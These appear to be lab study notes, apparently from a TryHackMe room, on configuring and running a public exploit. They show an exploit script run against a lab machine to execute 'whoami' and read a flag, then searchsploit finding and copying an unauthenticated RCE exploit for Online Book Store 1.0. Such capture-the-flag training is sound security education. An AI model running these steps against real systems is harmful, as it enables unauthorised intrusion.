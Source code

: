 Modifying an Exploit (After)
```shell-session
nano exploit.py
mymachine="10.13.37.10"
port="1337"
```

Once we have configured the exploit correctly, let’s further read this exploit to understand how to use it:
```shell-session
exploit.py --help
To use this exploit, provide the following arguments:
-u The URL of the application
-c the command that you wish to execute
```

We are now ready to use this exploit on the vulnerable machine. We are going to do the following:
1. Use the exploit to upload a malicious file to the vulnerable application containing whatever command we wish to execute, where the web server will run this malicious file to execute the code.
2. The file will first contain a basic command that we will use to verify that the exploit has worked.
```shell-session
exploit.py -u http://10.10.10.10 -c "whoami"
www-data
```
4. Then we are going to read the contents of a file located on the vulnerable machine.
```shell-session
exploit.py -u http://10.10.10.10 -c "cat flag.txt"
THM{EXPLOIT_COMPLETE}
```

## **Practical: Manual Exploitation**

1) Finding the version of the running application![[Pasted image 20240807153626.png]]

Searching for an exploit for the version in cause:
```
root@ip-10-10-113-30:~# searchsploit online book store
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
GotoCode Online Bookstore - Multiple Vulnerab | asp/webapps/17921.txt
Online Book Store 1.0 - 'bookisbn' SQL Inject | php/webapps/47922.txt
Online Book Store 1.0 - 'id' SQL Injection    | php/webapps/48775.txt
Online Book Store 1.0 - Arbitrary File Upload | php/webapps/47928.txt
Online Book Store 1.0 - Unauthenticated Remot | php/webapps/47887.py
Online Event Booking and Reservation System 1 | php/webapps/50450.txt
---------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Copying the exploit file on local machine
```
root@ip-10-10-113-30:~# searchsploit -m 47887.py
  Exploit: Online Book Store 1.0 - Unauthenticated Remote Code Execution
      URL: https://www.exploit-db.com/exploits/47887
     Path: /opt/exploitdb/exploits/php/webapps/47887.py
    Codes: N/A
 Verified: True
File Type: ASCII text

Copied to: /root/47887.py
```
